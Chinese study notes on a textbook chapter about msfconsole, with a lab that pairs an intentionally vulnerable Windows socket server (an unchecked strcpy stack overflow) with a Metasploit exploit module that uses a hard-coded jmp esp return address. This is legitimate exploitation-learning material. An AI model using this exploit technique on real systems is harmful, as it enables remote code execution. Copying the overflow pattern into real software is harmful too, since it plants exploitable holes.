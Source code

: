 # notes abouter chapter 4
本章基本就是教怎么使用msfconsole的。
## from 4.3
shellcode测试：  
![generate](./shellcodetest.JPG)  
![succ](./success1.JPG)  
## from 4.4
Ruby 简要学习。  
首先hello world，这里有坑，t.rb要在msf_root/bin目录下创建，要到msf_root/bin的目录下打开msfconsole，然后输入的指令是：
```
ruby t.rb
```
如图：
![rbt1](./rb_t1.JPG)
![zhiling](./zhiling.JPG)

## from 4.6
出发漏洞的server代码：
```
#include<iostream.h>
#include<winsock2.h>
#pragma comment(lib, "ws2_32.lib")
void msg_display(char * buf)
{
	char msg[200];
	strcpy(msg,buf);// overflow here, copy 0x200 to 200
	cout<<"********************"<<endl;
	cout<<"received:"<<endl;
	cout<<msg<<endl;
}
void main()
{
	int sock,msgsock,lenth,receive_len;
	struct sockaddr_in sock_server,sock_client;
	char buf[0x200]; //noticed it is 0x200
	WSADATA wsa;
	WSAStartup(MAKEWORD(1,1),&wsa);
	if((sock=socket(AF_INET,SOCK_STREAM,0))<0)
	{
		cout<<sock<<"socket creating error!"<<endl;
		exit(1);
	}
	sock_server.sin_family=AF_INET;
	sock_server.sin_port=htons(7777);
	sock_server.sin_addr.s_addr=htonl(INADDR_ANY);
	if(bind(sock,(struct sockaddr*)&sock_server,sizeof(sock_server)))
	{
		cout<<"binging stream socket error!"<<endl;
	}
	cout<<"**************************************"<<endl;
	cout<<" exploit target server 1.0 "<<endl;
	cout<<"**************************************"<<endl;
	listen(sock,4);
	lenth=sizeof(struct sockaddr);
	do{
		msgsock=accept(sock,(struct sockaddr*)&sock_client,(int*)&lenth);
		if(msgsock==-1)
		{
			cout<<"accept error!"<<endl;
			break;
		}
		else
		do
		{
			memset(buf,0,sizeof(buf));
			if((receive_len=recv(msgsock,buf,sizeof(buf),0))<0)
			{
				cout<<"reading stream message erro!"<<endl;
				receive_len=0;
			}
			msg_display(buf);//trigged the overflow 0X200>200
		}while(receive_len);
		closesocket(msgsock);
	}while(1);
	WSACleanup();
}
```  
这里就是buff设置了0x200，而display的是200，可能在display buff的时候出发栈溢出。
这里的exp：
```
#! /usr/bin/env ruby
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
    include Msf::Exploit::Remote::Tcp
    def initialize(info={})
        super(update_info(info,
            'Name' => 'failwest_test',
            'Platform' => 'win',
            'Targets' => [
                ['Windows 2000', {'Ret' => 0x7c86467b } ],
                ['Windows XP SP2',{'Ret' => 0x7c86467b } ]
                ],
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
                }
            )
        )
    end    
    def exploit
        connect
        attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.encoded
        sock.put(attack_buf)
        handler
        disconnect
    end #end of exploit def
end
```
我使用了kernell32.dll里的jmp esp：0x7c86467b
使用验证，这里payloads无法使用，有空用linux下的msf再试一下：
![success](./success2.JPG)

至此chapter 4学习完毕。